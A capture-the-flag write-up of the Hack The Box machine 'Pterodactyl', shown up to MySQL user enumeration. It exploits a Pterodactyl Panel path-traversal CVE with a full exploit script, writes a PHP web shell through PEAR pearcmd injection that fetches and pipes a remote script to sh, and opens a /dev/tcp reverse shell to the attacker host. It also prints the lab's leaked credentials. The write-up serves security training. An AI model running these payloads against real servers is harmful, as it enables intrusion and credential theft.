


## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Virtual Host (VHOST) Discovery](#Virtual-Host-VHOST-Discovery)
- [Initial Access](#Initial-Access)
    - [CVE-2025-49132: Pterodactyl Panel Unauthenticated Arbitrary Remote Code Execution](#CVE-2025-49132-Pterodactyl-Panel-Unauthenticated-Arbitrary-Remote-Code-Execution)
    - [Laravel Configuration Exposure](#Laravel-Configuration-Exposure)
    - [PHP PEAR Command Injection](#PHP-PEAR-Command-Injection)
- [Enumeration (wwwrun)](#Enumeration-wwwrun)
- [user.txt](#usertxt)
- [Privilege Escalation to phileasfogg3](#Privilege-Escalation-to-phileasfogg3)
    - [MySQL Database Enumeration](#MySQL-Database-Enumeration)
    - [Cracking the Hash using John the Ripper](#Cracking-the-Hash-using-John-the-Ripper)
- [Enumeration (phileasfogg3)](#Enumeration-phileasfogg3)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [CVE-2025-6018 & CVE-2025-6019: SUSE 15 PAM Local Privilege Escalation (LPE) via libblockdev/udisks](#CVE-2025-6018-&-CVE-2025-6019-SUSE-15-PAM-Local-Privilege-Escalation-LPE-via-libblockdevudisks)
- [root.txt](#roottxt)

## Summary

The box starts with `SSH` on port `22/TCP` and `HTTP` on port `80/TCP`. The web service runs `nginx` serving a simple landing page that references a subdomain `play.pterodactyl.htb`. A changelog file reveals the installation of `Pterodactyl Panel` version `1.11.10` with `PHP-PEAR` enabled.

`Virtual Host` (`VHOST`) enumeration discovers `panel.pterodactyl.htb` hosting the `Pterodactyl Panel` login interface. Exploiting `CVE-2025-49132` which is an arbitrary file read vulnerability allows extraction of `Laravel` configuration files including `database credentials` and the application key through `Local File Inclusion` (`LFI`) and `Path Traversal`.

Leveraging `PHP PEAR` command injection via the `pearcmd` wrapper combined with the file read vulnerability enables writing a `PHP` web shell to `/tmp/`. Accessing the shell through the same file read vulnerability grants initial access as `wwwrun`.

Enumeration of the `MySQL` database reveals user credentials with password hashes. Cracking the `bcrypt` hash for `phileasfogg3` using `John the Ripper` yields the password `!QAZ2wsx` granting `SSH` access and allowing the `user.txt` to be grabbed.

For the `Privilege Escalation` exploitation of `CVE-2025-6018` and `CVE-2025-6019` is required. These vulnerabilities affect `SUSE 15` `PAM` authentication and the `libblockdev/udisks` subsystem. By manipulating `PAM` environment variables to bypass authentication checks and creating a malicious `XFS` filesystem image containing a `setuid` bash binary the `udisks` daemon can be exploited to mount the filesystem with preserved `setuid` permissions granting root access.

## Reconnaissance

### Port Scanning

We began with our initial port scan using `Nmap` which revealed `SSH` on port `22/TCP` and `HTTP` on port `80/TCP`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.129.109.212 --min-rate 10000
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-07 20:08 +0100
Nmap scan report for 10.129.109.212
Host is up (0.39s latency).
Not shown: 65514 filtered tcp ports (no-response), 17 filtered tcp ports (admin-prohibited)
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
443/tcp  closed https
8080/tcp closed http-proxy

Nmap done: 1 IP address (1 host up) scanned in 17.40 seconds
```

We performed a service version scan on the discovered ports.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.109.212          
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-07 20:08 +0100
Nmap scan report for pterodactyl.htb (10.129.109.212)
Host is up (1.1s latency).
Not shown: 814 filtered tcp ports (no-response), 182 filtered tcp ports (admin-prohibited)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 9.6 (protocol 2.0)
| ssh-hostkey: 
|   256 a3:74:1e:a3:ad:02:14:01:00:e6:ab:b4:18:84:16:e0 (ECDSA)
|_  256 65:c8:33:17:7a:d6:52:3d:63:c3:e4:a9:60:64:2d:cc (ED25519)
80/tcp   open   http       nginx 1.21.5
|_http-server-header: nginx/1.21.5
|_http-title: My Minecraft Server
443/tcp  closed https
8080/tcp closed http-proxy

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 193.98 seconds
```

The scan revealed a hostname `pterodactyl.htb` which we added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.109.212  pterodactyl.htb
```

### Enumeration of Port 80/TCP

We accessed the web service and used `whatweb` to identify the technologies in use.

- [http://pterodactyl.htb/](http://pterodactyl.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://pterodactyl.htb/
http://pterodactyl.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.21.5], IP[10.129.109.212], PHP[8.4.8], Script, Title[My Minecraft Server], X-Powered-By[PHP/8.4.8], nginx[1.21.5]
```

The website displayed a simple landing page about a `Minecraft` server with a link to `play.pterodactyl.htb`. We added this subdomain to our `/etc/hosts` file.



```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts 
127.0.0.1       localhost
127.0.1.1       kali
10.129.109.212  pterodactyl.htb
10.129.109.212  play.pterodactyl.htb
```

We discovered a changelog file that revealed interesting information about the server configuration.

- [http://pterodactyl.htb/changelog.txt](http://pterodactyl.htb/changelog.txt)

```shell
MonitorLand - CHANGELOG.txt
======================================

Version 1.20.X

[Added] Main Website Deployment
--------------------------------
- Deployed the primary landing site for MonitorLand.
- Implemented homepage, and link for Minecraft server.
- Integrated site styling and dark-mode as primary.

[Linked] Subdomain Configuration
--------------------------------
- Added DNS and reverse proxy routing for play.pterodactyl.htb.
- Configured NGINX virtual host for subdomain forwarding.

[Installed] Pterodactyl Panel v1.11.10
--------------------------------------
- Installed Pterodactyl Panel.
- Configured environment:
  - PHP with required extensions.
  - MariaDB 11.8.3 backend.

[Enhanced] PHP Capabilities
-------------------------------------
- Enabled PHP-FPM for smoother website handling on all domains.
- Enabled PHP-PEAR for PHP package management.
- Added temporary PHP debugging via phpinfo()
```

The changelog revealed the installation of `Pterodactyl Panel` version `1.11.10` with `PHP-PEAR` enabled and `MariaDB` as the database backend.

### Virtual Host (VHOST) Discovery

We performed virtual host enumeration using `ffuf` to discover additional subdomains. Virtual host enumeration discovered `panel.pterodactyl.htb`. We added this to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.pterodactyl.htb" -u http://pterodactyl.htb --fs 145

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://pterodactyl.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.pterodactyl.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 145
________________________________________________

panel                   [Status: 200, Size: 1897, Words: 490, Lines: 36, Duration: 273ms]
:: Progress: [151265/151265] :: Job [1/1] :: 729 req/sec :: Duration: [0:09:21] :: Errors: 0 ::
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.109.212  pterodactyl.htb
10.129.109.212  play.pterodactyl.htb
10.129.109.212  panel.pterodactyl.htb
```

Accessing the subdomain revealed the `Pterodactyl Panel` login interface.

[https://github.com/pterodactyl](https://github.com/pterodactyl)



## Initial Access

### CVE-2025-49132: Pterodactyl Panel Unauthenticated Arbitrary Remote Code Execution

Quick research on this revealed that `Pterodactyl Panel` version `1.11.10` is vulnerable to `CVE-2025-49132` which is an arbitrary file read vulnerability through the locale loading mechanism.

- [https://github.com/advisories/GHSA-24wv-6c99-f843](https://github.com/advisories/GHSA-24wv-6c99-f843)

We obtained a proof of concept exploit from `Exploit-DB`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ cat exploit.py 
                    
## https://sploitus.com/exploit?id=EDB-ID:52341
# Exploit Title: Pterodactyl Panel 1.11.11 - Remote Code Execution (RCE)
# Date: 22/06/2025
# Exploit Author: Zen-kun04
# Vendor Homepage: https://pterodactyl.io/
# Software Link: https://github.com/pterodactyl/panel
# Version: < 1.11.11
# Tested on: Ubuntu 22.04.5 LTS
# CVE: CVE-2025-49132


import requests
import json
import argparse
import colorama
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

arg_parser = argparse.ArgumentParser(
    description="Check if the target is vulnerable to CVE-2025-49132.")
arg_parser.add_argument("target", help="The target URL")
args = arg_parser.parse_args()

try:
    target = args.target.strip() + '/' if not args.target.strip().endswith('/') else args.target.strip()
    r = requests.get(f"{target}locales/locale.json?locale=../../../pterodactyl&namespace=config/database", allow_redirects=True, timeout=5, verify=False)
    if r.status_code == 200 and "pterodactyl" in r.text.lower():
        try:
            raw_data = r.json()
            data = {
                "success": True,
                "host": raw_data["../../../pterodactyl"]["config/database"]["connections"]["mysql"].get("host", "N/A"),
                "port": raw_data["../../../pterodactyl"]["config/database"]["connections"]["mysql"].get("port", "N/A"),
                "database": raw_data["../../../pterodactyl"]["config/database"]["connections"]["mysql"].get("database", "N/A"),
                "username": raw_data["../../../pterodactyl"]["config/database"]["connections"]["mysql"].get("username", "N/A"),
                "password": raw_data["../../../pterodactyl"]["config/database"]["connections"]["mysql"].get("password", "N/A")
            }
            print(f"{colorama.Fore.LIGHTGREEN_EX}{target} => {data['username']}:{data['password']}@{data['host']}:{data['port']}/{data['database']}{colorama.Fore.RESET}")
        except json.JSONDecodeError:
            print(colorama.Fore.RED + "Not vulnerable" + colorama.Fore.RESET)
        except TypeError:
            print(colorama.Fore.YELLOW + "Vulnerable but no database" + colorama.Fore.RESET)
    else:
        print(colorama.Fore.RED + "Not vulnerable" + colorama.Fore.RESET)
except requests.RequestException as e:
    if "NameResolutionError" in str(e):
        print(colorama.Fore.RED + "Invalid target or unable to resolve domain" + colorama.Fore.RESET)
    else:
        print(f"{colorama.Fore.RED}Request error: {e}{colorama.Fore.RESET}")
```

We executed the exploit to verify the vulnerability and extract database credentials.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ python3 exploit.py http://panel.pterodactyl.htb/
http://panel.pterodactyl.htb/ => pterodactyl:PteraPanel@127.0.0.1:3306/panel
```

The exploit successfully extracted database credentials.

| Username    | Password   |
| ----------- | ---------- |
| pterodactyl | PteraPanel |

### Laravel Configuration Exposure

We expanded our exploitation by reading additional `Laravel` configuration files through the arbitrary file read vulnerability. We created a script to enumerate various configuration namespaces.

The vulnerability allowed us to read multiple configuration files by manipulating the `locale` and `namespace` parameters. We successfully extracted sensitive information including the application key session configuration cache settings and service credentials.

Key findings from the configuration enumeration included:

- **APP_KEY**: `base64:UaThTPQnUjrrK61o+Luk7P9o4hM+gl4UiMJqcbTSThY=`
- **Application path**: `/var/www/pterodactyl`
- **Service author email**: `pterodactyl@pterodactyl.htb`
- PHP-PEAR installation confirmed
- Session and cache drivers using `redis`

```shell
import requests
import json

target = "http://panel.pterodactyl.htb"
base_url = f"{target}/locales/locale.json"

print("[*] Testing different read methods...\n")

# Method 1: Use the same technique as your working DB exploit
files_to_read = [
    ("../../../pterodactyl", "config/app", "App config"),
    ("../../../pterodactyl", "config/session", "Session config"),
    ("../../../pterodactyl", "config/cache", "Cache config"),
    ("../../pterodactyl", "config/app", "App config (2 levels)"),
]

for locale, namespace, desc in files_to_read:
    url = f"{base_url}?locale={locale}&namespace={namespace}"
    try:
        r = requests.get(url, timeout=5)
        if r.status_code == 200:
            print(f"[+] {desc}")
            print(f"URL: {url}")
            try:
                data = r.json()
                print(json.dumps(data, indent=2)[:500])
            except:
                print(r.text[:500])
            print("-" * 80)
    except Exception as e:
        print(f"[-] {desc} failed: {e}")

# Method 2: Try to read Laravel routing files
print("\n[*] Testing Laravel config files...\n")

laravel_configs = [
    "config/app",
    "config/database", 
    "config/cache",
    "config/session",
    "config/filesystems",
]

for config in laravel_configs:
    url = f"{base_url}?locale=../../../pterodactyl&namespace={config}"
    try:
        r = requests.get(url, timeout=5)
        if r.status_code == 200 and len(r.text) > 50:
            print(f"[+] {config}")
            print(r.text[:300])
            print("-" * 80)
    except:
        pass
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ python3 poc.py -H panel.pterodactyl.htb
[*] Testing different read methods...

[+] App config
URL: http://panel.pterodactyl.htb/locales/locale.json?locale=../../../pterodactyl&namespace=config/app
{
  "../../../pterodactyl": {
    "config/app": {
      "version": "1.11.10",
      "name": "Pterodactyl",
      "env": "production",
      "debug": "",
      "url": "http://panel.pterodactyl.htb",
      "timezone": "UTC",
      "locale": "en",
      "fallback_locale": "en",
      "key": "base64{{UaThTPQnUjrrK61o}}+Luk7P9o4hM+gl4UiMJqcbTSThY=",
      "cipher": "AES-256-CBC",
      "exceptions": {
        "report_all": ""
      },
      "maintenance": {
        "driver": "file"
      },
      "pr
--------------------------------------------------------------------------------
[+] Session config
URL: http://panel.pterodactyl.htb/locales/locale.json?locale=../../../pterodactyl&namespace=config/session
{
  "../../../pterodactyl": {
    "config/session": {
      "driver": "redis",
      "lifetime": "720",
      "expire_on_close": "",
      "encrypt": "1",
      "files": "/var/www/pterodactyl/storage/framework/sessions",
      "connection": "",
      "table": "sessions",
      "store": "",
      "lottery": [
        "2",
        "100"
      ],
      "cookie": "pterodactyl_session",
      "path": "/",
      "domain": "",
      "secure": "",
      "http_only": "1",
      "same_site": "lax"
    }
 
--------------------------------------------------------------------------------
[+] Cache config
URL: http://panel.pterodactyl.htb/locales/locale.json?locale=../../../pterodactyl&namespace=config/cache
{
  "../../../pterodactyl": {
    "config/cache": {
      "default": "redis",
      "stores": {
        "apc": {
          "driver": "apc"
        },
        "array": {
          "driver": "array",
          "serialize": ""
        },
        "database": {
          "driver": "database",
          "table": "cache",
          "connection": "",
          "lock_connection": ""
        },
        "file": {
          "driver": "file",
          "path": "/var/www/pterodactyl/storage/framework/cache/da
--------------------------------------------------------------------------------
[+] App config (2 levels)
URL: http://panel.pterodactyl.htb/locales/locale.json?locale=../../pterodactyl&namespace=config/app
{
  "../../pterodactyl": {
    "config/app": []
  }
}
--------------------------------------------------------------------------------

[*] Testing Laravel config files...

[+] config/app
{"..\/..\/..\/pterodactyl":{"config\/app":{"version":"1.11.10","name":"Pterodactyl","env":"production","debug":"","url":"http:\/\/panel.pterodactyl.htb","timezone":"UTC","locale":"en","fallback_locale":"en","key":"base64{{UaThTPQnUjrrK61o}}+Luk7P9o4hM+gl4UiMJqcbTSThY=","cipher":"AES-256-CBC","except
--------------------------------------------------------------------------------
[+] config/database
{"..\/..\/..\/pterodactyl":{"config\/database":{"default":"mysql","connections":{"mysql":{"driver":"mysql","url":"","host":"127.0.0.1","port":"3306","database":"panel","username":"pterodactyl","password":"PteraPanel","unix_socket":"","charset":"utf8mb4","collation":"utf8mb4_unicode_ci","prefix":"","
--------------------------------------------------------------------------------
[+] config/cache
{"..\/..\/..\/pterodactyl":{"config\/cache":{"default":"redis","stores":{"apc":{"driver":"apc"},"array":{"driver":"array","serialize":""},"database":{"driver":"database","table":"cache","connection":"","lock_connection":""},"file":{"driver":"file","path":"\/var\/www\/pterodactyl\/storage\/framework\
--------------------------------------------------------------------------------
[+] config/session
{"..\/..\/..\/pterodactyl":{"config\/session":{"driver":"redis","lifetime":"720","expire_on_close":"","encrypt":"1","files":"\/var\/www\/pterodactyl\/storage\/framework\/sessions","connection":"","table":"sessions","store":"","lottery":["2","100"],"cookie":"pterodactyl_session","path":"\/","domain":
--------------------------------------------------------------------------------
[+] config/filesystems
{"..\/..\/..\/pterodactyl":{"config\/filesystems":{"default":"local","disks":{"local":{"driver":"local","root":"\/var\/www\/pterodactyl\/storage\/app","throw":""},"public":{"driver":"local","root":"\/var\/www\/pterodactyl\/storage\/app\/public","url":"http:\/\/panel.pterodactyl.htb\/storage","visibi
--------------------------------------------------------------------------------
```

### PHP PEAR Command Injection

With knowledge of `PHP-PEAR` being enabled and the arbitrary file read vulnerability we researched methods to achieve command execution. The `pearcmd.php` wrapper in `PHP-PEAR` allows command injection when combined with file write capabilities.

We crafted a payload that leverages the `config-create` command in `pearcmd.php` to write a `PHP` web shell. The payload abuses the file read vulnerability to access `/usr/share/php/PEAR` and inject commands through the configuration creation process.

We prepared a reverse shell script on our attack machine.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/serve]
└─$ cat x 
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.16.21/9001 0>&1'
```

We started a `Python HTTP Server` to serve the payload.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

As next step we executed the `PEAR` command injection payload to create a web shell in `/tmp/rev.php`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ curl -s "http://panel.pterodactyl.htb/locales/locale.json?+config-create+/&locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system('curl\$\{IFS\}10.10.16.21/x|sh')?>+/tmp/rev.php"
```

We triggered the web shell by accessing it through the file read vulnerability.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ curl -s "http://panel.pterodactyl.htb/locales/locale.json?locale=../../../../../../tmp&namespace=rev"
```

And immediately received a reverse shell connection.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/serve]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.21] from (UNKNOWN) [10.129.109.212] 51298
bash: cannot set terminal process group (1214): Inappropriate ioctl for device
bash: no job control in this shell
wwwrun@pterodactyl:/var/www/pterodactyl/public>
```

As usual we upgraded the shell to a fully interactive TTY.

```shell
wwwrun@pterodactyl:/var/www/pterodactyl/public> python3 -c 'import pty;pty.spawn("/bin/bash")'
<lic> python3 -c 'import pty;pty.spawn("/bin/bash")'
wwwrun@pterodactyl:/var/www/pterodactyl/public> ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/serve]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

wwwrun@pterodactyl:/var/www/pterodactyl/public> 
wwwrun@pterodactyl:/var/www/pterodactyl/public> export XTERM=xterm
wwwrun@pterodactyl:/var/www/pterodactyl/public>
```

## Enumeration (wwwrun)

Now the basic enumeration of our current user context. began.

```shell
wwwrun@pterodactyl:/var/www/pterodactyl/public> id
id
uid=474(wwwrun) gid=477(www) groups=477(www)
```

```shell
wwwrun@pterodactyl:/var/www/pterodactyl/public> ls -la
ls -la
total 12
drwxr-xr-x 1 wwwrun www  100 Jan  7 13:59 .
drwxr-xr-x 1 wwwrun www  754 Nov  7 17:01 ..
-rw-r--r-- 1 wwwrun www   48 Nov 15  2024 .gitignore
-rw-r--r-- 1 wwwrun www  593 Nov 15  2024 .htaccess
drwxr-xr-x 1 wwwrun www  608 Nov 15  2024 assets
drwxr-xr-x 1 wwwrun www 1366 Nov 15  2024 favicons
-rw-r--r-- 1 wwwrun www 2364 Nov 15  2024 index.php
drwxr-xr-x 1 wwwrun www   90 Nov 15  2024 js
drwxr-xr-x 1 wwwrun www   22 Nov 15  2024 themes
```

We checked environment variables which confirmed the database credentials we had extracted earlier.

```shell
wwwrun@pterodactyl:/var/www/pterodactyl/public> env
env
DB_PORT=3306
LOG_DEPRECATIONS_CHANNEL=null
LS_COLORS=
REDIS_PASSWORD=null
REDIS_PORT=6379
DB_HOST=127.0.0.1
MAIL_PASSWORD=
GPG_TTY=not a tty
APP_ENVIRONMENT_ONLY=false
PTERODACTYL_TELEMETRY_ENABLED=false
MAIL_FROM_ADDRESS=no-reply@example.com
APP_LOCALE=en
HASHIDS_SALT=pKkOnx0IzJvaUXKWt2PK
APP_DEBUG=false
LOG_LEVEL=debug
MAIL_HOST=smtp.example.com
USER=wwwrun
REDIS_HOST=127.0.0.1
APP_ENV=production
PWD=/var/www/pterodactyl/public
APP_KEY=base64:UaThTPQnUjrrK61o+Luk7P9o4hM+gl4UiMJqcbTSThY=
HOME=/var/lib/wwwrun
DB_PASSWORD=PteraPanel
HASHIDS_LENGTH=8
MAIL_ENCRYPTION=tls
APP_URL=http://panel.pterodactyl.htb
MAIL_MAILER=smtp
APP_TIMEZONE=UTC
QUEUE_CONNECTION=redis
CACHE_DRIVER=redis
DB_USERNAME=pterodactyl
LS_OPTIONS=-N --color=none -T 0
SHLVL=4
APP_SERVICE_AUTHOR=pterodactyl@pterodactyl.htb
SESSION_DRIVER=redis
DB_CONNECTION=mysql
APP_THEME=pterodactyl
RECAPTCHA_ENABLED=false
MAIL_PORT=25
MAIL_FROM_NAME=Pterodactyl Panel
LOG_CHANNEL=daily
MAIL_USERNAME=
DB_DATABASE=panel
_=/usr/bin/env
```

With a look at `/etc/passwd` we were able to identify three additional users.

```shell
wwwrun@pterodactyl:/var/www/pterodactyl/public> cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
messagebus:x:499:499:User for D-Bus:/run/dbus:/usr/bin/false
nobody:x:65534:65534:nobody:/var/lib/nobody:/bin/bash
man:x:13:62:Manual pages viewer:/var/lib/empty:/usr/sbin/nologin
mail:x:498:498:Mailer daemon:/var/spool/clientmqueue:/usr/sbin/nologin
lp:x:497:497:Printing daemon:/var/spool/lpd:/usr/sbin/nologin
daemon:x:2:2:Daemon:/sbin:/usr/sbin/nologin
bin:x:1:1:bin:/bin:/usr/sbin/nologin
chrony:x:496:482:Chrony Daemon:/var/lib/chrony:/usr/sbin/nologin
postfix:x:51:51:Postfix Daemon:/var/spool/postfix:/usr/sbin/nologin
systemd-timesync:x:480:480:systemd Time Synchronization:/:/usr/sbin/nologin
nscd:x:479:479:User for nscd:/run/nscd:/usr/sbin/nologin
polkitd:x:478:478:User for polkitd:/var/lib/polkit:/usr/sbin/nologin
rpc:x:477:65534:user for rpcbind:/var/lib/empty:/sbin/nologin
statd:x:476:65533:NFS statd daemon:/var/lib/nfs:/sbin/nologin
sshd:x:475:475:SSH daemon:/var/lib/sshd:/usr/sbin/nologin
wwwrun:x:474:474:WWW daemon apache:/var/lib/wwwrun:/usr/sbin/nologin
mysql:x:60:60:MySQL database admin:/var/lib/mysql:/usr/sbin/nologin
redis:x:473:473:User for redis key-value store:/var/lib/redis:/usr/sbin/nologin
nginx:x:472:472:User for nginx:/var/lib/nginx:/usr/sbin/nologin
dockremap:x:471:471:docker --userns-remap=default:/:/usr/sbin/nologin
pterodactyl:x:470:100::/home/pterodactyl:/usr/sbin/nologin
headmonitor:x:1001:100::/home/headmonitor:/bin/bash
phileasfogg3:x:1002:100::/home/phileasfogg3:/bin/bash
_laurel:x:469:100::/var/log/laurel:/bin/false
```

| Username     |
| ------------ |
| pterodactyl  |
| headmonitor  |
| phileasfogg3 |

We checked listening ports to understand the service landscape. The output showed `MySQL` on port `3306/TCP`, `Redis` on port `6379/TCP` and `PHP-FPM` on port `9000/TCP` all listening locally.

```shell
wwwrun@pterodactyl:/var/www/pterodactyl/public> ss -tulpn
ss -tulpn
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
udp   UNCONN 0      0       0.0.0.0%eth0:68        0.0.0.0:*          
udp   UNCONN 0      0          127.0.0.1:323       0.0.0.0:*          
udp   UNCONN 0      0              [::1]:323          [::]:*          
tcp   LISTEN 0      512        127.0.0.1:9000      0.0.0.0:*          
tcp   LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*          
tcp   LISTEN 0      511        127.0.0.1:6379      0.0.0.0:*          
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*          
tcp   LISTEN 0      512          0.0.0.0:80        0.0.0.0:*          
tcp   LISTEN 0      100        127.0.0.1:25        0.0.0.0:*          
tcp   LISTEN 0      128             [::]:22           [::]:*
```

Out of convenience we attempted to access the `user.txt` flag.

```shell
wwwrun@pterodactyl:/var/www/pterodactyl/public> ls -la /home/phileasfogg3
ls -la /home/phileasfogg3
total 24
drwxr-xr-x 1 phileasfogg3 users  156 Dec 31 17:29 .
drwxr-xr-x 1 root         root    46 Nov  7 18:41 ..
lrwxrwxrwx 1 root         root     9 Dec 31 17:29 .bash_history -> /dev/null
-rw-r--r-- 1 phileasfogg3 users 1177 Aug 22  2024 .bashrc
drwx------ 1 phileasfogg3 users    0 Mar 15  2022 .cache
drwx------ 1 phileasfogg3 users    0 Mar 15  2022 .config
-rw-r--r-- 1 phileasfogg3 users 1637 Apr  9  2018 .emacs
drwxr-xr-x 1 phileasfogg3 users    0 Mar 15  2022 .fonts
-rw-r--r-- 1 phileasfogg3 users  861 Apr  9  2018 .inputrc
drwx------ 1 phileasfogg3 users    0 Mar 15  2022 .local
-rw-r--r-- 1 phileasfogg3 users 1028 Aug 22  2024 .profile
drwxr-xr-x 1 phileasfogg3 users    0 Mar 15  2022 bin
-rw-r--r-- 1 root         root    33 Feb  7 21:07 user.txt
```

## user.txt

The `user.txt` file was readable by our current user.

```shell
wwwrun@pterodactyl:/var/www/pterodactyl/public> cat /home/phileasfogg3/user.txt
<pterodactyl/public> cat /home/phileasfogg3/user.txt
116f3fb193f7ecba2e1f5ca1a906fdf5
```

## Privilege Escalation to phileasfogg3

### MySQL Database Enumeration

For the next step and the first `Privilege Escalation` we connected to the `MySQL` database using the extracted credentials.

```shell
wwwrun@pterodactyl:/var/www/pterodactyl/public> mysql -h 127.0.0.1 -u pterodactyl -p'PteraPanel' panel
mysql: Deprecated program name. It will be removed in a future release, use '/usr/bin/mariadb' instead
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1178
Server version: 11.8.3-MariaDB MariaDB package

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [panel]> 
```

We enumerated available databases and selected the database `panel` to have a look at the available `tables`.

```shell
MariaDB [panel]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| panel              |
| test               |
+--------------------+
3 rows in set (0.001 sec)
```

```shell
MariaDB [panel]> use panel;
Database changed
```

```shell
MariaDB [panel]> show tables;
+-----------------------+
| Tables_in_panel       |
+-----------------------+
| activity_log_subjects |
| activity_logs         |
| allocations           |
| api_keys              |
| api_logs              |
| audit_logs            |
| backups               |
| database_hosts        |
| databases             |
| egg_mount             |
| egg_variables         |
| eggs                  |
| failed_jobs           |
| jobs                  |
| locations             |
| migrations            |
| mount_node            |
| mount_server          |
| mounts                |
| nests                 |
| nodes                 |
| notifications         |
| password_resets       |
| recovery_tokens       |
| schedules             |
| server_transfers      |
| server_variables      |
| servers               |
| sessions              |
| settings              |
| subusers              |
| tasks                 |
| tasks_log             |
| user_ssh_keys         |
| users                 |
+-----------------------+
35 rows in set (0.000 sec)
```

From the `users` table we were able to extract the `hash` for `phileasfogg3`.

```shell
MariaDB [panel]> select * from users \G;
*************************** 1. row ***************************
                   id: 2
          external_id: NULL
                 uuid: 5e6d956e-7be9-41ec-8016-45e434de8420
             username: headmonitor
                email: headmonitor@pterodactyl.htb
